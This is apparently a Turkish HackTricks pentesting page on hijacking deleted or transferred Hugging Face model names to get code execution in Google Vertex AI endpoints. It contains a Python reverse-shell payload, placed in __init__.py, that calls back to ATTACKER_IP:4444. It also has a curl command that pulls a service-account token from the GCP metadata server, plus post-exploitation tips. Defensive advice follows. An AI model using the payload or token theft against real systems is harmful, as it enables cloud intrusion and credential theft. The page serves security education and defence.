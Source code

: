 # GCP - Vertex AI Post-Exploitation aracılığıyla Hugging Face Model Namespace Yeniden Kullanımı

{{#include ../../../banners/hacktricks-training.md}}

## Senaryo

- Vertex AI Model Garden, birçok Hugging Face (HF) modelinin doğrudan dağıtılmasına izin verir.
- HF model tanımlayıcıları Author/ModelName şeklindedir. HF'de bir author/org silinirse, aynı author adı herhangi biri tarafından yeniden kaydedilebilir. Saldırganlar ardından aynı ModelName ile legacy path'te bir repo oluşturabilir.
- Yalnızca isimle (pinning/integrity yok) çeken Pipelines, SDKs veya cloud katalogları saldırgan kontrollü repoyu çeker. Model dağıtıldığında, o repodaki loader kodu Vertex AI endpoint container içinde çalışabilir ve endpoint'in izinleriyle RCE sağlayabilir.

HF'de iki yaygın takeover vakası:
- Sahiplik silinmesi: Eski yol 404 döner; author yeniden kaydedilip aynı ModelName yayınlanana kadar.
- Sahiplik transferi: HF, eski Author/ModelName'den yeni sahibine 307 yönlendirmesi yapar. Eğer eski author daha sonra silinip saldırgan tarafından yeniden kaydedilirse, yönlendirme zinciri kırılır ve saldırganın reposu legacy path'te hizmet verir.

## Yeniden Kullanılabilir Namespace'leri (HF) Tespit Etme

- Eski author silinmiş: author sayfası 404 döner; model yolu takeover gerçekleşene kadar 404 dönebilir.
- Transfer edilmiş modeller: eski model yolu, eski author var olduğu sürece yeni sahip için 307 yönlendirmesi yapar. Eğer eski author daha sonra silinip yeniden kaydedilirse, legacy path saldırganın reposuna yönlenir.

Hızlı kontroller curl ile:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI'ye Karşı Uçtan Uca Saldırı Akışı

1) Model Garden'ın deployable olarak listelediği yeniden kullanılabilir model namespace'lerini keşfedin:
- Vertex AI Model Garden'da hâlâ “verified deployable” olarak görünen HF modellerini bulun.
- Orijinal Author'ın silinip silinmediğini veya modelin transfer edilip edilmediğini ve eski Author'ın daha sonra kaldırılıp kaldırılmadığını HF üzerinde doğrulayın.

2) Silinmiş Author'ı HF üzerinde yeniden kaydedin ve aynı ModelName'i yeniden oluşturun.

3) Kötü amaçlı bir repo yayınlayın. Model yüklemesi sırasında çalışan kodu dahil edin. HF model yüklemesi sırasında yaygın olarak çalışan örnekler:
- Repodaki __init__.py içinde side effects
- config/auto_map tarafından referans verilen custom modeling_*.py veya processing kodu
- Transformers pipeline'larında trust_remote_code=True gerektiren code paths

4) Legacy Author/ModelName'in Vertex AI deployment'ı artık attacker repo'yu çeker. Loader, Vertex AI endpoint container içinde çalıştırılır.

5) Payload, endpoint ortamından (RCE) endpoint'in izinleriyle erişim sağlar.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notlar
- Gerçek dünyadaki loader'lar değişkenlik gösterir. Birçok Vertex AI HF entegrasyonu, modelin config'inde referans verilen repo modüllerini (ör. auto_map) clone'lar ve import eder; bu, kod yürütmeyi tetikleyebilir. Bazı kullanımlar trust_remote_code=True gerektirir.
- Endpoint tipik olarak sınırlı kapsama sahip ayrılmış bir container içinde çalışır, ancak GCP'de veri erişimi ve lateral movement için geçerli bir initial foothold'tur.

## Post-Exploitation Tips (Vertex AI Endpoint)

Kod endpoint container içinde çalışmaya başladıktan sonra şu adımları düşünün:
- Kimlik bilgileri/tokens için ortam değişkenleri ve metadata'yı enumerate etmek
- Ekli storage'a veya mount edilmiş model artifact'larına erişmek
- service account identity üzerinden Google API'leriyle etkileşim kurmak (Document AI, Storage, Pub/Sub, vb.)
- Platform repo'yu yeniden çekerse model artifact içinde persistence sağlamak

Erişilebiliyorsa instance metadata'yı enumerate edin (container bağımlı):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI kullanıcıları için savunma rehberi

- HF loaders'ta modelleri commit'e göre sabitleyin; sessiz değiştirmeyi önlemek için:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Onaylanmış HF modellerini güvenilir dahili bir artifact store/registry'ye mirror'layın ve dağıtımı oradan yapın.
- Kod tabanlarını ve konfigürasyonları, silinmiş/transfer edilmiş olarak hard-coded Author/ModelName için sürekli tarayın; yeni namespace'lere güncelleyin veya commit'e pinleyin.
- Model Garden'da, dağıtımdan önce model provenance ve yazarın varlığını doğrulayın.

## Recognition Heuristics (HTTP)

- Silinmiş yazar: yazar sayfası 404; legacy model yolu takeover'a kadar 404.
- Transfer edilmiş model: legacy yol 307 ile yeni yazara yönlendirilir; eski yazar varken; eğer eski yazar daha sonra silinir ve yeniden kayıt olursa, legacy yol saldırgan içeriği sunar.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Çapraz Referanslar

- Daha geniş metodoloji ve tedarik zinciri notlarına bakın:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referanslar

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
